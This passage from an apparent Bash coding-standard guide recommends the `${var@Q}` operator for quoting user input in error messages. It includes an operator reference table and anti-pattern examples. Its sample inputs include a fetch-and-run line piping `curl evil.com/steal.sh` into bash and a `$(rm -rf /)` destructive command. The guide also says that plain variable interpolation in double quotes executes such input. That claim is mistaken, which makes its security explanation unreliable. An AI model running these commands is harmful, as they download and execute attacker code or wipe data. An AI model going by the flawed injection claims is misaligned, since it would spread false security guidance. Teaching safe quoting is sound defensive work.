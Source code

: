 ### Security Example

Demonstrates why `@Q` is critical for security:

```bash
# Vulnerable code (NO @Q)
validate_input() {
  [[ -z "$1" ]] && die 2 "Option $2 requires argument"
  # User input: --name='`curl evil.com/steal.sh | bash`'
  # Error message executes command: Option `curl evil.com/steal.sh | bash` requires argument
}

# Safe code (WITH @Q)
validate_input() {
  [[ -z "$1" ]] && die 2 "Option ${2@Q} requires argument"
  # User input: --name='`curl evil.com/steal.sh | bash`'
  # Error message shows literally: Option '`curl evil.com/steal.sh | bash`' requires argument
}
```

### Other `@` Operators (for reference)

Bash provides several parameter transformation operators:

| Operator | Purpose | Example |
|----------|---------|---------|
| `${var@Q}` | Quote for shell reuse | `'hello world'` |
| `${var@E}` | Expand escape sequences | `$'hello\nworld'` |
| `${var@P}` | Prompt expansion | *(PS1-style expansion)* |
| `${var@A}` | Assignment form | `var='value'` |
| `${var@a}` | Attributes | `declare -i` → `i` |
| `${var@U}` | Uppercase | `HELLO` |
| `${var@L}` | Lowercase | `hello` |

**For BCS purposes, `@Q` is the most commonly used** for safe parameter display in error messages and logging.

### Anti-Patterns

```bash
# ✗ Wrong - No quoting, injection risk
die 2 "Unknown option $1"

# ✗ Wrong - Double quotes don't prevent expansion
die 2 "Unknown option \"$1\""
# Input: --opt='$(rm -rf /)'
# Still expands: Unknown option "$(rm -rf /)"

# ✗ Wrong - Manual escaping fragile
die 2 "Unknown option '$(sed "s/'/'\\\\''/g" <<<"$1")'"

# ✓ Correct - Use @Q operator
die 2 "Unknown option ${1@Q}"
```

